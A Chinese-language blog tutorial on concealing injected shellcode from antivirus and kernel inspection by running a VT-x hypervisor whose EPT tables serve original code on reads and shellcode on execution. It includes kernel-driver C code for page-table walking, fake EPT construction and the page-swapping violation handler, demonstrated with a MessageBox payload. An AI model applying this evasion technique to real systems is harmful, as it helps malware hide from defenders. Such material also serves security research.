


上帝模式下的shellcode
“当上帝想要隐藏，无法跳出思维的人们永远也不会发现”
——Wker
对于硬盘文件中的shellcode保护起来相对轻松，可以使用的方法比较多，加密方法也比较多。但是当shellcode被加载到内存中时，由于特征的暴露，杀软也可以比较快速的定位到特征位置。
那么是否有一种方法可以让处在ring0的内核也无法探测到这段被加载到应用程序的内存呢？
是有的。
计算机中存在比较严格的权限划分。
在Windows操作系统的认知下，他所在的ring0是已经达到了最高权限，所以他可以俯视一切，并且可以欺骗一切，他欺骗应用程序独占4GB的内存，但是他没有想到是否有一种权限是高于他并且可以欺骗他。
VT虚拟化已经不算是什么新颖的技术了，早在二零一几年的时候就已经应用比较广泛。
当Windows开启虚拟化之后，整个操作系统跑在cpu给其设计的虚拟机上，为了能够更好的管理操作系统，衍生出了需要管理操作系统的权限，即host权限，因为当时在设计权限命名时可能没有虚拟化的概念，所以为了能够更好的表示其权限高于Windows操作系统的R0(guest权限)，所以将其称之为R-1，也就是这里我所描述的上帝视角。
和操作系统欺骗应用程序类似，处于R-1的host同样的可以欺骗Windows内核。
那么本篇文章将会通过内存隐匿的方式达到shellcode无痕化。
内存无痕化原理
为了简化内存虚拟化的实现，以及提升内存虚拟化的性能，Intel推出了EPT(Enhanced Page Table)技术，即在原有的页表基础上新增了EPT页表实现另一次映射。这样，GVA-GPA-HPA两次地址转换都由CPU硬件自动完成。
描述有点繁琐，简单介绍一下，由于开启了VT(虚拟化)，所以Windows认为的物理地址需要经过root的EPT进行映射。
guest的虚拟内存转化为guest的物理内存，但这并不一定是真正的物理内存，需要经过EPT表进行转化到host的物理地址。
EPT表的具体转化方式类似于四级页表，具体详细内容可以百度搜索。
处在host权限的程序可以创建一张虚假的EPT传递给操作系统，当操作系统想要查找某一页内存时，我们返回其真正的内存页，担当需要执行这块内存时，通过EPT得到的是我们预先准备好的虚假内存。
所以出现了执行的代码与读出来的代码不一致的情况。
并且因特尔cpu允许内存页权限的完全可控化，也就是说这块内存可以只有执行权限，但是没有读写权限，这种畸形的内存页属性。
上帝模式的shellcode整体注入方式
首先是得到程序将会执行的一块内存地址，这块内存地址中是正常的代码，也就是写一个比较长的无用代码（类似于__asm{mov eax,eax}）但是最好要长一些，防止覆盖。
得到这个函数的虚拟地址之后，通过IRP传递给R0，通过IRP执行的代码运行在程序内部，所以得到的虚拟地址可以通过pdbr指向的页表转化为真实的物理地址。
再在IRP中开启一个R0权限的线程，此线程用于开启VT虚拟化。
在开启VT虚拟化之前生成一张自定义的EPT表，这张表中将得到的物理地址内容拷贝出一份作为执行页面，并且假页面的内容根据需要注入shellcode，将物理地址内存所在页权限设置为只可读写。
当执行到shellcode所在内存时，由于没有执行权限，host将会接管操作系统，将页面替换为注入了shellcode的内存页面，并且将属性设置为只可以执行，当有程序读取这块内存时，又发生了异常，host将其页面修改为原始页面，并且属性设置为只可读写，以此往复，达到了读写与执行的分离。
这种host接管操作系统的方式非常类似于Windows调试器的处理方式，并且处理这种页面问题和Wker_EXEDebug中的内存读写执行断点十分类似，如果还不清楚内存断点具体是如何运作的，可以参考Wker的博客了解如何实现内存断点。
第一步应用程序创建一个垃圾函数
很简单，只需要编写一些废话代码就可以。类似于：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
|
int testFun(){
int a = 10;
__asm{
mov a,15
mov eax,ebx
mov ebx,eax
mov eax,ebx
mov ebx,eax
mov eax,ebx
mov ebx,eax
mov eax,ebx
mov ebx,eax
........
}
return a;
}
|
但是需要注意的是，需要关闭编译器自动转化内敛函数的开关，否则当编译器看到你这段代码不长，并且有极大优化空间，没有参数之类的情况时，将会自动将其以内敛函数的方式编译，当值此函数地址无法被调用。
在加载内核驱动之后传递IRP之后，执行此垃圾函数。
得到虚拟地址的物理地址
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
|
pOutAddress = (size_t*)MmGetSystemAddressForMdlSafe(pIrp->MdlAddress, NormalPagePriority);
RtlZeroMemory(&virtualAddress,sizeof(VIRTUAL_ADDRESS));
virtualAddress.ulVirtualAddress = *pOutAddress;
_asm{
mov eax, cr3;
mov pdbr, eax;
}
RtlZeroMemory(&phyAddress,sizeof(PHYSICAL_ADDRESS));
phyAddress.LowPart = pdbr;
pPdbr = (PULONG)MmMapIoSpace(phyAddress, sizeof(PHYSICAL_ADDRESS), MmNonCached);
KdPrint(("pdbr = 0x%08X, 映射后的地址0x%p\n", pdbr, pPdbr));
ulPointerIdx = virtualAddress.stVirtualAddress.dirPointer;
ulDirBaseAddress = pPdbr[ulPointerIdx];
ulDirBaseAddress &= 0xFFFFF000;
ulDirAddress = ulDirBaseAddress + virtualAddress.stVirtualAddress.dirIndex * 0x8;
phyAddress.LowPart = ulDirAddress;
pPageTable = (PULONG)MmMapIoSpace(phyAddress, sizeof(PHYSICAL_ADDRESS), MmNonCached);
ulPageTable = *pPageTable;
ulPageTable &= 0xFFFFF000;
ulPageTable += virtualAddress.stVirtualAddress.tableIndex * 0x8;
phyAddress.LowPart = ulPageTable;
pPageBase = (PULONG)MmMapIoSpace(phyAddress, sizeof(PHYSICAL_ADDRESS), MmNonCached);
ulPageBase = *pPageBase;
ulPageBase &= 0xFFFFF000;
ulPhyAddress = ulPageBase + virtualAddress.stVirtualAddress.offset;
phyAddress.LowPart = ulPhyAddress;
pPhyAddress = (PWCHAR)MmMapIoSpace(phyAddress, sizeof(PHYSICAL_ADDRESS), MmNonCached);
KdPrint(("虚拟地址：0x%08X, 对应物理地址：0x%08X", *pOutAddress, ulPhyAddress));
|
通过CR3寄存器得到页目录表页面的物理地址(pdbr)，然后一级级寻址得到物理地址。
创建虚假的EPT表
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
| ULONG64* MyEptInitialization()
{
ULONG64 *ept_PDPT, *ept_PDT, *ept_PT;
ULONG64 * create_page;
PHYSICAL_ADDRESS create_page_PA;
PHYSICAL_ADDRESS FirstPtePA, FirstPdePA, FirstPdptePA;
ULONG deviation;
int a, b, c;
createCode();
initEptPagesPool();
ept_PML4T = AllocateOnePage();
ept_PDPT = AllocateOnePage();
FirstPdptePA = MmGetPhysicalAddress(ept_PDPT);
*ept_PML4T = (FirstPdptePA.QuadPart) + 7;
for (a = 0; a < 4; a++)
{
ept_PDT = AllocateOnePage();
FirstPdePA = MmGetPhysicalAddress(ept_PDT);
*ept_PDPT = (FirstPdePA.QuadPart) + 7;
ept_PDPT++;
for (b = 0; b < 512; b++)
{
ept_PT = AllocateOnePage();
FirstPtePA = MmGetPhysicalAddress(ept_PT);
*ept_PDT = (FirstPtePA.QuadPart) + 7;
ept_PDT++;
for (c = 0; c < 512; c++)
{
*ept_PT = ((a << 30) | (b << 21) | (c << 12) | 0x37) & 0xFFFFFFFF;
if ((((a << 30) | (b << 21) | (c << 12) | 0x37) & 0xFFFFF000) == (origin_fun_pa & 0xFFFFF000))
{
RtlZeroMemory(&create_page_PA,sizeof(PHYSICAL_ADDRESS));
create_page_PA.LowPart = origin_fun_pa & 0xFFFFF000;
create_page = MmMapIoSpace(create_page_PA,PAGE_SIZE,MmNonCached);
RtlZeroMemory(&origin_pa,sizeof(PHYSICAL_ADDRESS));
origin_pa.LowPart = ((a << 30) | (b << 21) | (c << 12) | 0x37);
deviation = origin_fun_pa - (origin_fun_pa & 0xFFFFF000);
fake_mem = AllocateFakePage(create_page,deviation,code,codelength);
hook_pa = MmGetPhysicalAddress(fake_mem);
*ept_PT = (hook_pa.QuadPart | 0x34) & 0xFFFFFFFF;
Log("fake_mem",fake_mem);
Log("*ept_PT",*ept_PT);
hook_ept_pt = ept_PT;
}
ept_PT++;
}
}
}
return ept_PML4T;
}
|
具体操作方式和创建一个四级页表很相似，但是需要注意的是，将垃圾函数所在的物理内存页属性设置为只可读写不可执行。
开启VT虚拟化
此过程稍许复杂，类似于Windows窗口注册的方式，所以只简单介绍需要填充EPT的字段。
EPT填充在虚拟化的guest控制域中
1
2
3
4
5
| Vmx_VmWrite(CPU_BASED_VM_EXEC_CONTROL, VmxAdjustControls(0x80000000, MSR_IA32_VMX_PROCBASED_CTLS));
Vmx_VmWrite(EPT_POINTER, (EPTP | 6 | (3 << 3)) & 0xFFFFFFFF);
Vmx_VmWrite(EPT_POINTER_HIGH, (EPTP | 6 | (3 << 3)) >> 32);
Vmx_VmWrite(EPT_POINTER_HIGH, EPTP >> 32);
Vmx_VmWrite(SECONDARY_VM_EXEC_CONTROL, VmxAdjustControls(0x2, MSR_IA32_VMX_PROCBASED_CTLS2));
|
打开EPT开关，传入自己的EPT表地址，通过高低32位的方式填充。
捕获FP异常
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| void HandleEPT()
{
ULONG ExitQualification;
ExitQualification = Vmx_VmRead(EXIT_QUALIFICATION) ;
if(ExitQualification & 3){
Log("EPT read",0);
*hook_ept_pt = ((origin_pa.LowPart & 0xFFFFF000) | 0x33);
}else{
Log("EPT EXEC",0);
*hook_ept_pt = ((hook_pa.LowPart & 0xFFFFF000) | 0x34);
}
}
|
此处可以看到，页面异常时将虚假页面和真正页面的替换过程
3代表可读写(11)，4代表可执行(100)，7代表可读写执行(111)
和linux的chmod权限设置方式相同。
shellcode
shellcode需要注意的是，最好使用push addr,ret的方式进行函数跳转，防止因为绝对地址带来的干扰问题。
效果展示

可以看到，这里od读取的内存时原本正常的代码内容
按下回车再次执行垃圾函数。

此时虽然内存展示是原本函数，但是执行的却是弹出了MessageBox（由于push的type类型是0，xp上面显示的就是这个样子）。
注意
由于内存读写执行的分离，当时用msf类型的shellcode时，需要分离读写，将写与执行在一起，保证shellcode更改自身可以成功写入到注入了shellcode的内存
后记
代码会上传到我的github上，想了解可以关注我的github